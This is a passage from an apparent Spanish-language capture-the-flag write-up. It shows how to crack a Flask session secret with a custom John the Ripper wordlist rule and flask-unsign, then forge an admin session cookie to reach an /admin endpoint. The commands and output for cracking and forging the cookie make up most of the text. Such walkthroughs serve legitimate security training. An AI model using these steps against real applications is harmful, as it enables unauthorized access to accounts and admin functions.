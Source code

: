 Primero, creamos un archivo llamado `flask_base.txt` que contenga la cadena `secret_key_`.

Luego, definimos una nueva regla en `john` para generar los números que van desde `100000` hasta `999999` en el archivo de configuración `/etc/john/john.conf`.

```
[List.Rules:Flask_Rule]
Az"[1-9][0-9][0-9][0-9][0-9][0-9]"
```

A continuación, generamos la lista de palabras utilizando `john` con la regla que definimos anteriormente.

```
john --wordlist=flask_base.txt --rules=flask_rule --stdout > flask_list.txt
```

Ahora solo nos queda proceder con el descifrado.

```
flask-unsign --unsign --wordlist flask_list.txt --cookie '<cookie>'
```

{% embed url="https://github.com/Paradoxis/Flask-Unsign" %}

<figure><img src="../.gitbook/assets/Intranet/flask_unsing.png" alt=""><figcaption></figcaption></figure>

En este caso, hemos descifrado la clave como `secret_key_361929`, aunque puede variar. 

Para construir nuestro propio `token`, es fundamental entender cómo está estructurado el token original, lo cual podemos determinar al descifrar la palabra secreta.

```
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
```

Dado que el directorio `/admin` indica que no podemos acceder, podemos utilizar `admin` para generar nuestro propio token con el siguiente comando.

```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret_key_361929'
```
<figure><img src="../.gitbook/assets/Intranet/secret-jwt.png" alt=""><figcaption></figcaption></figure>

Modificamos el `token` y nos dirigimos al endpoint `/admin`, lo que nos permite acceder sin problemas.

